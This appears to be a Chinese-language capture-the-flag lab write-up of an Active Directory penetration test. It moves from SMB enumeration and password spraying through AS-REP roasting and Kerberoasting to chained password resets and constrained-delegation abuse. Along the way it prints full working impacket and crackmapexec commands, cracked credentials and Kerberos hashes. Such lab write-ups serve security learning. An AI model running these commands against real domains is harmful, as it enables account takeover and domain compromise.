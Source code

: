 ```yaml
---
title: 'Active Directory 渗透测试：从委派攻击到域控接管'
description: '本文完整记录了针对域的渗透测试过程，涵盖SMB枚举、Kerberos协议攻击、约束委派滥用等高级AD攻击技术，最终通过权限链实现域控接管。'
date: 2025-02-07
tags: ['Pentesting','Active Directory', 'Kerberos', 'SMB', '约束委派', 'BloodHound']
image: './assets/image-20250210145734557.png'
authors: ['0xd00']
---
```


## 初始信息

已知IP:10.10.92.51

## 信息收集与初始访问

### 端口扫描

```bash
nmap  -sS -T4 -A 10.10.92.51
```

![image-20250207143334163](./assets/image-20250207143334163.png)

![image-20250207144723528](./assets/image-20250207144723528.png)

根据扫描结果可以知道这是一台Windows Server，直接盯上我们的常客SMB

### SMB枚举

smbmap扫一下有没有匿名用户

```bash
smbmap.py -u "anonymous" -H 10.10.92.51
```

![image-20250207145009172](./assets/image-20250207145009172.png)

发现了`Data`目录有读写权限，`IPC$`目录有读权限。

![image-20250207152946792](./assets/image-20250207152946792.png)

![image-20250207153148854](./assets/image-20250207153148854.png)

通过文本文件我们能得知这个新员工的密码是`ResetMe123!`，而且根据密码内容，这可能是系统的默认密码。

![image-20250207153859430](./assets/image-20250207153859430.png)

通过浏览其中的pdf文件我们能够推断出txt文件可能是一个模板文件，用于将`<User>`替换成用户名后渲染到pdf的这一页中。

所以根据内容已经所以接下来的新思路就是枚举所有用户名，尝试使用默认密码进行登录。

### 用户枚举

```bash
crackmapexec smb 10.10.92.51 -u "anonymous" -d thm.local -p '' --rid-brute >> a.txt
```

![image-20250207161022443](./assets/image-20250207161022443.png)

```bash
cat a.txt| cut -d '\' -f 2 | grep SidTypeUser | awk '{print $1}' > usernames.txt
```

![image-20250207161633499](./assets/image-20250207161633499.png)

### 密码喷射

```bash
crackmapexec smb 10.10.92.51 -u usernames.txt -p 'ResetMe123!'
```

![image-20250207163201644](./assets/image-20250207163201644.png)

可以发现，目前只有pdf中的用户`LILY_ONEILL`未修改默认密码。

可惜的是通过`LILY_ONEILL`无法获取到shell

## 横向移动与权限提升

扫描开启了 **“无需预认证”**的账户

```bash
apt install python3-impacket
```

### Kerberos AS-REP Roasting攻击

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass 'thm.corp/' -dc-ip 10.10.92.51 -request -usersfile usernames.txt
```

![image-20250207165554311](./assets/image-20250207165554311.png)

发现三个TGT

```
$krb5asrep$23$ERNESTO_SILVA@THM.CORP:6a45925477f99879b8055888ce6bca96$927fb698caac41a10e1023638d035d9115ad11f93a0b21cd4d1b66d9993da62dca5a0d85cda5e1ffd24d769510738c4948b7e482690ba002d0768b8acf8fc22356f161703fd9fe8b5aa701463436625204a4a716bb914784316c26700bfb27a80040ebbbdb3580ccd91e6e130f79481e6d6717ab79b2c1d325bffb4c185876832b950430cee0939edd333e90a0500327bed3284539f0874f548c7b3c81bc0c18d7f922b32982178225a54681e949a3a041795c7e3949f7617e0e665cef645ade4b7dab1fb71ca5ed6e5dc81a3bec792583c111312ff39a745e4c43a9e41d8f9a269b5a1f

$krb5asrep$23$TABATHA_BRITT@THM.CORP:e5a3c8465c0d6fdfa0b6b31c2ea1dfc8$99b7065eeb90ff423ad65e55de27d48fbc36fad77f9dcf4dffc9fcd6347772b9f9903b676512d551c7e565b2be9c192cff0ded60627346d58d500b5d923832d84fdab6da3ec6e03f0ee7ee81b5f54f37916f9aca5eefd5f8ad6fac06147b254b00a459986ad76e52c9a33131891e4984a2fe01c9c2a3def7feee6bf2919b28299fcfa7c932939b2fcfba66a2d5a0217c74f04360d4f2913d4a59a6d52addd6540963c814ed60b72ddcc208aa3beae9d0c37ee75f04a52267b0a27f7a64071cad5a708cb3a786dd8a01a5a41491f724a34856351a49d221c863c93c19a9d1a7df4cea6ae2

$krb5asrep$23$LEANN_LONG@THM.CORP:45cb306670d80c559c718a645b2fecf7$1e48fc282e120d5e78de9644784b6c10b3ef3adf6849bcaae394b333cb3809931783ba62fc40adab997ee0a393f404eddfd4f3256c57edc22e36ddcbcf4f06611170a954f19954ef0650a2306d36c3f67306cb590aa902478adfa9b84ab8de59d29b74c15de0c06aec5a1c3a20b3d6c762634f3d363e68229d9af1dd2bbb15dc1ebee78991a605c509c61b0df0b1034e84261ee53ded8919293214fcf679f4aa90587699f8343fa0852340ede08f095cce71c3043c245e74ec3aeb55d8f268d0648b6cb6c722e01f3e494240b5bef183dd4f1de1634e9dc526a05a7080f2c08311a79336
```

爆破出一个密码

![image-20250207170330360](./assets/image-20250207170330360.png)

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py "thm.corp/TABATHA_BRITT:marlboro(1985)" -dc-ip 10.10.92.51 -request -outputfile SPN.hashes
```

![image-20250207171246320](./assets/image-20250207171246320.png)

但可惜的是TABATHA_BRITT也不可用。

### bloodhound权限分析

```bash
bloodhound-python -d THM.corp -u 'TABATHA_BRITT' -p 'marlboro(1985)' -ns 10.10.92.51 -c all
```

![image-20250207172229560](./assets/image-20250207172229560.png)

### 通过用户枚举域中信息

从此位置起ip变更为`10.10.76.184`

![image-20250210142426054](./assets/image-20250210142426054.png)

将收集到的数据导入到`bloodhood`中

检查`AS-REQ Roastable`用户

![image-20250210142805590](./assets/image-20250210142805590.png)

选中`TABATHA_BRITT`节点，Node info->OUTBOUND CONTROL RIGHTS->Transitive Object Control

![image-20250210144135361](./assets/image-20250210144135361.png)

![image-20250210145734557](./assets/image-20250210145734557.png)

![image-20250210153941815](./assets/image-20250210153941815.png)

可见约束委派被配置为允许委派到域控制器的 **CIFS** 服务，所以我们获取到`DARLA_WINTERS`账户之后即可获取域控权限。

## 约束委派攻击

### 密码重置操作链

```text
TABATHA_BRITT
└─→ GenericAll → SHAWNA_BRAY
    └─→ ForceChangePassword → CRUZ_HALL
        └─→ ForceChangePassword → DARLA_WINTERS
            └─→ 约束委派 → Domain Controller (CIFS)
```

由于`TABATHA_BRITT`有`SHAWNA_BRAY`的`GenericAll`权限，所以我们可以用其重置`SHAWNA_BRAY`的密码

```bash
net rpc password "SHAWNA_BRAY" "QWER@1234" -U "THM.CORP"/"TABATHA_BRITT"%"marlboro(1985)" -S "10.10.76.184"
crackmapexec smb 10.10.76.184 -u 'SHAWNA_BRAY' -p 'QWER@1234'
```

![image-20250210152013523](./assets/image-20250210152013523.png)

`SHAWNA_BRAY`具有`ForceChangePassword`权限

```bash
net rpc password 'CRUZ_HALL' 'QWER@1234' -U 'thm.corp'/'SHAWNA_BRAY'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'CRUZ_HALL' -p 'QWER@1234'
```

![image-20250210152901727](./assets/image-20250210152901727.png)

`CRUZ_HALL`也具有`ForceChangePassword`权限

```bash
net rpc password 'DARLA_WINTERS' 'QWER@1234' -U 'thm.corp'/'CRUZ_HALL'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'DARLA_WINTERS' -p 'QWER@1234'
```

![image-20250210153107076](./assets/image-20250210153107076.png)

### 约束委派利用

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn cifs/HayStack.thm.corp -impersonate Administrator THM.corp/DARLA_WINTERS
```

![image-20250210161948114](./assets/image-20250210161948114.png)

```bash
export KRB5CCNAME=Administrator.ccache
```

### 域控接管


这里有个小坑,`haystack.thm.corp`应该添加到hosts文件中,`wmiexec`似乎没有参数能够指定域控ip
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass Administrator@haystack.thm.corp
```

![image-20250210164102035](./assets/image-20250210164102035.png)

